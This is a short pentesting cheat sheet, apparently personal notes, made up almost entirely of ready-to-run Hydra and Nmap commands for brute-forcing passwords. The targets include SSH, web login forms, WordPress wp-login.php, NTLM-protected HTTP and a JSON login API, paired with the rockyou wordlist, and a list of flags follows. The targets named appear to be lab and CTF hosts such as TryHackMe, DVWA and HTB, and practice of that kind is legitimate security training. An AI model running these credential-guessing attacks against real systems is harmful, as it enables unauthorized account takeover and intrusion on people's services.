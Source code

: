 # Services

```bash


hydra <url> ssh -L /usr/share/ncrack/minimal.usr -P /usr/share/wordlists/rockyou.txt -f -V 


hydra -L users.txt -P pass.txt <service://server> <options>


hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh

hydra -l root -P LIST 192.168.1.105 -t 4 ssh

hydra -L USERNAME_LIST -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh

hydra -l root -P LIST 192.168.1.105 -t 4 ssh

# ntlm bruteforce fail when 401 http 
hydra -I -V -L ./usernames.txt -p 'Changeme123' ntlmauth.za.tryhackme.com http-get '/:A=NTLM:F=401'
```

Copy
```

```bash

-s # port 
-l USERNAME -L USERNAME.txt
-p PASS -P PASSWORDS.txt
-U check for moudle info
http-post-form # for http brute force 
ssh 
-f # exit after first successful creds found 

```


# web
```bash

hydra <url> <method> "<Login page>:<usrname&password paramaters>:<Failed to login message>" -f -V

hydra crackme.site http-post-form "/login.php:usr=^USER^&pwd=^PASS^:Invalid credentials" -L /usr/share/ncrack/minimal.usr -P /usr/share/wordlists/rockyou.txt -f -V


hydra -L *USERNAME_WORDLIST* -P *PASSWORD_WORDLIST* 
192.168.1.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"

hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' *Wordpress*

#json

hydra -v -V -P /usr/share/wordlists/rockyou.txt -s 3000 node.htb http-post-form "/api/session/authenticate:
username=^USER^&password=^PASS^:Login Failed! Incorrect credentials were specified" -L users.txt -P /usr/share/
wordlists/rockyou.txt -f -v 

# flags
-l # user
-L # user lit
-p # password 
-P # Password list
-V # verbose
-s # custom port 


```


# Nmap ssh brute

```bash
nmap -p 22 --script ssh-brute --script-args userdb=/root/users demo.ine.local

```
